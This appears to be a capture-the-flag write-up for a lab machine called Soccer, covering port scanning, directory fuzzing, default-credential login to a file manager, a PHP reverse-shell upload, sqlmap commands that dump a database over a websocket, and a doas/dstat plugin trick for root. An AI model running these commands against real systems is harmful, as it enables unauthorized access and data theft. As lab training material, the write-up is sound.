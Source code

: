## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 using nginx and an unknown service running on port 9091  

![NmapScan](nmap_scan.png)

## Web Fuzzing

we look for directories not shown on the main page using ffuf 

![FUZZing](Fuzz.png)![tinymanagement](tiny.png)

we find a tiny file manager that we accessed using the default credentials 
Username:**admin**&Password:**admin@123**

Navigating the Website we found that we have write access on the uploads directory on which we could upload php code and get our reverse shell

![upload](upload.png)

we find that we dont have permission to view user flag however digging deeper we find a vhost in the nginx config files

![[vhost.png]]
## Sql Injection

browsing the newly found vhost we found a parameter that is injectable


regularly we are unable to access the outcoime of our blind sqli Fortunately sqlmap allows us to directly access it on websocket service on port 9091.

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

![db_sqli](db_Sqli.png)

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D
soccer_db --dump --batch
```

![cred_sqli](cred_sqli.png)

## User Flag

we use the found credentials to ssh into our machine successfully
![user_flag](user_flag.png)

## Privilege Escalation

We check if we can use any **SUID** bins as root using the following command
```
find / -type f -perm -4000 2>/dev/null
```

![bins](bins.png)
searching for doas we find that the config file is in  ```/usr/local/etc/doas.conf``` 
revealing that we can run dstat as root

![dstat](dstat.png)

the dstat man page reveals that we can use it to run external python plugins as root

```
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

when we execute this command we create a python script that executes a shell we then run doas using 
```
doas /usr/bin/dstat --list
```
to get a shell as root
![root](root.png)
